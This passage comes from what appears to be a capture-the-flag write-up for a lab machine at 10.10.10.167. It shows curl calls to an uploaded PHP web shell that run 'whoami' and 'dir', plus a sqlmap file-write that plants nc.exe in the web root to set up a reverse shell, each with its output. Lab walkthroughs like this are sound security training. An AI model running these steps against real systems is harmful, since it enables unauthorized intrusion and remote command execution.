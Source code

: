To confirm if we uploaded our webshell correctly, we use `curl` command.
```shell
root@kali:~# curl http://10.10.10.167/backdoor.php?cmd=whoami
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<pre>nt authority\iusr
</pre>
```

Next, upload `nc.exe` to get a reverse shell.
```shell
root@kali:~# sqlmap -r request.txt --file-write=/usr/share/windows-binaries/nc.exe --file-dest=C:/inetpub/wwwroot/nc.exe

---

do you want confirmation that the local file '/usr/share/windows-binaries/nc.exe' has been successfully written on the back-end DBMS file system ('C:/inetpub/wwwroot/nc.exe')? [Y/n] Y
[19:23:18] [INFO] the local file '/usr/share/windows-binaries/nc.exe' and the remote file 'C:/inetpub/wwwroot/nc.exe' have the same size (59392 B)
[19:23:18] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.167'

[*] ending @ 19:23:18 /2020-08-22/
```

Using the webshell we uploaded, we can execute `dir` command.<br>
The uploaded `nc.exe` is in the folder `C:\inetpub\wwwroot`.
```shell
root@kali:~# curl http://10.10.10.167/backdoor.php?cmd=dir+C:\\inetpub\\wwwroot
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<pre> Volume in drive C has no label.
 Volume Serial Number is C05D-877F

 Directory of C:\inetpub\wwwroot

08/22/2020  12:36 PM    <DIR>          .
08/22/2020  12:36 PM    <DIR>          ..
11/05/2019  03:42 PM             7,867 about.php
11/20/2019  02:16 AM             7,350 admin.php
10/23/2019  05:02 PM    <DIR>          assets
08/22/2020  12:19 PM               328 backdoor.php
11/05/2019  03:42 PM               479 create_category.php
11/05/2019  03:42 PM               585 create_product.php
11/05/2019  03:42 PM               904 database.php
11/05/2019  03:42 PM               423 delete_category.php
11/05/2019  03:42 PM               558 delete_product.php
11/05/2019  03:42 PM    <DIR>          images
11/19/2019  06:57 PM             3,145 index.php
11/05/2019  03:42 PM            17,128 LICENSE.txt
08/22/2020  12:36 PM            59,392 nc.exe
11/19/2019  07:07 PM             3,578 search_products.php
11/05/2019  03:42 PM               498 update_category.php
11/05/2019  03:42 PM             4,056 update_product.php
11/12/2019  12:49 PM    <DIR>          uploads
11/05/2019  03:42 PM             2,933 view_product.php
              15 File(s)        109,224 bytes
               5 Dir(s)  43,613,020,160 bytes free
</pre>
```
